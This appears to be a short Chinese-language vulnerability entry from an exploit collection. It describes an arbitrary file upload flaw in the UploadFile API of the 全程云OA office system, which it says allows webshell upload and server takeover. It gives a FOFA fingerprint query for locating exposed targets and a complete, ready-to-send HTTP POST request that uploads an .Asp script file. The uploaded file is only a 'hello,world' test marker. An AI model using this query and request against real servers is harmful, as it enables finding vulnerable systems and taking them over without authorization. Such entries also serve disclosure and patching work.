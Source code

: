 # 全程云OA接口UploadFile存在任意文件上传漏洞

全程云OA接口UploadFile存在任意文件上传漏洞。该漏洞允许攻击者上传webshell木马获取服务器权限。

## fofa

```java
body="images/yipeoplehover.png"
```

## poc

```java
POST /OA/api/2.0/Common/AttachFile/UploadFile HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Ldwk: bG91ZG9uZ3dlbmt1
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNe8DcVuv1vEUWDaR
Content-Length: 191

------WebKitFormBoundaryNe8DcVuv1vEUWDaR
Content-Disposition: form-data; name="upload";filename="123.Asp"

<% response.write("hello,world") %>
------WebKitFormBoundaryNe8DcVuv1vEUWDaR--
```



## 漏洞来源

- https://mp.weixin.qq.com/s/T4kFVsKphUd6OYRYMyMUtg